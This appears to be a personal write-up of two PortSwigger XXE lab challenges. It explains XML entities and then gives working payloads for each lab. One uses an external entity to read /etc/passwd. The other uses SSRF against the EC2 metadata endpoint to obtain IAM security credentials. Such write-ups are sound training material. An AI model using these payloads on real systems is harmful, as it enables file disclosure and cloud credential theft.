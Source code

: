 ### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

